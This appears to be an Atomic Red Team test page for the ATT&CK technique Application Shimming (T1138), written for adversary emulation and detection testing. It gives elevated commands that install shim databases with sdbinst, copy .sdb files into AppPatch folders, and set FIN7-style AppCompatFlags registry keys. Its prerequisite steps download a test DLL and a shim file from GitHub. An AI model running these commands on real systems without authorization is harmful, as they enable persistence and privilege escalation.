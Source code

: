# T1138 - Application Shimming

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1138)

<blockquote>The Microsoft Windows Application Compatibility Infrastructure/Framework (Application Shim) was created to allow for backward compatibility of software as the operating system codebase changes over time. For example, the application shimming feature allows developers to apply fixes to applications (without rewriting code) that were created for Windows XP so that it will work with Windows 10. (Citation: Endgame Process Injection July 2017) Within the framework, shims are created to act as a buffer between the program (or more specifically, the Import Address Table) and the Windows OS. When a program is executed, the shim cache is referenced to determine if the program requires the use of the shim database (.sdb). If so, the shim database uses [Hooking](https://attack.mitre.org/techniques/T1179) to redirect the code as necessary in order to communicate with the OS. 

A list of all shims currently installed by the default Windows installer (sdbinst.exe) is kept in:

* <code>%WINDIR%\AppPatch\sysmain.sdb</code>
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb</code>

Custom databases are stored in:

* <code>%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom</code>
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom</code>

To keep shims secure, Windows designed them to run in user mode so they cannot modify the kernel and you must have
administrator privileges to install a shim. However, certain shims can be used
to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) (UAC) (RedirectEXE), inject DLLs into
processes (InjectDLL), disable Data Execution Prevention (DisableNX) and Structure Exception Handling (DisableSEH), and
intercept memory addresses (GetProcAddress). Similar to [Hooking](https://attack.mitre.org/techniques/T1179), utilizing
these shims may allow an adversary to perform several malicious acts such as elevate privileges, install backdoors,
disable defenses like Windows Defender, etc.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Application Shim Installation](#atomic-test-1---application-shim-installation)

- [Atomic Test #2 - New shim database files created in the default shim database directory](#atomic-test-2---new-shim-database-files-created-in-the-default-shim-database-directory)

- [Atomic Test #3 - Registry key creation and/or modification events for SDB](#atomic-test-3---registry-key-creation-andor-modification-events-for-sdb)

<br/>

## Atomic Test #1 - Application Shim Installation

Install a shim database. This technique is used for privilege escalation and bypassing user access control.
Upon execution, "Installation of AtomicShim complete." will be displayed. To verify the shim behavior, run
the AtomicTest.exe from the <PathToAtomicsFolder>\T1138\bin directory. You should see a message box appear
with "Atomic Shim DLL Test!" as defined in the AtomicTest.dll. To better understand what is happening, review
the source code files is the <PathToAtomicsFolder>\T1138\src directory.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | Path to the shim database file | String | PathToAtomicsFolder&#92;T1138&#92;bin&#92;AtomicShimx86.sdb|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
sdbinst.exe #{file_path}
```

#### Cleanup Commands:

```cmd
sdbinst.exe -u #{file_path}
```

#### Dependencies:  Run with `powershell`!

##### Description: Shim database file must exist on disk at specified location (#{file_path})

##### Check Prereq Commands:

```powershell
if (Test-Path #{file_path}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1138/bin/AtomicShimx86.sdb" -OutFile "#{file_path}"
```

##### Description: AtomicTest.dll must exist at c:\Tools\AtomicTest.dll

##### Check Prereq Commands:

```powershell
if (Test-Path c:\Tools\AtomicTest.dll) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path c:\Tools\AtomicTest.dll) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1138/bin/AtomicTest.dll" -OutFile c:\Tools\AtomicTest.dll
```

<br/>
<br/>

## Atomic Test #2 - New shim database files created in the default shim database directory

Upon execution, check the "C:\Windows\apppatch\Custom\" folder for the new shim database

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
Copy-Item $PathToAtomicsFolder\T1138\bin\T1138CompatDatabase.sdb C:\Windows\apppatch\Custom\T1138CompatDatabase.sdb
Copy-Item $PathToAtomicsFolder\T1138\bin\T1138CompatDatabase.sdb C:\Windows\apppatch\Custom\Custom64\T1138CompatDatabase.sdb
```

#### Cleanup Commands:

```powershell
Remove-Item C:\Windows\apppatch\Custom\T1138CompatDatabase.sdb -ErrorAction Ignore
Remove-Item C:\Windows\apppatch\Custom\Custom64\T1138CompatDatabase.sdb -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Registry key creation and/or modification events for SDB

Create registry keys in locations where fin7 typically places SDB patches. Upon execution, output will be displayed
describing
the registry keys that were created. These keys can also be viewed using the Registry Editor.

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1138" -Value "AtomicRedTeamT1138"
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1138" -Value "AtomicRedTeamT1138"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1138" -ErrorAction Ignore
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1138" -ErrorAction Ignore
```

<br/>
